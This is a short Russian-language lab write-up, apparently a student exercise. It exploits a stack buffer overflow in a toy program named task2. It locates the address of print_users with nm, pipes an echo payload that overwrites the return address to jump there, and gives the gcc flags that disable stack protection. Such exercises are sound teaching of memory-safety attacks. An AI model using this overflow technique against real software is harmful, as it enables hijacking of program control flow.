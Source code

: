 1) Найдем адрес функции ```print_users``` в стеке  
    Команда: ```nm -A task2 | grep print_users```  
    Вывод: ```task2:0000000000401146 T print_users```
2) Так как буфер размером 8 -> переполняем его и добавляем необходимый адрес:  
```echo -n -e "\x1\x2\x3\x4\x5\x6\x7\x8\x00\x00\x00\x00\x00\x00\x00\x00\x46\x11\x40" | ./task2```

1) ```gcc -fno-stack-protector -z execstack -no-pie -g -o task2 task2.c```
2) ![img.png](img.png)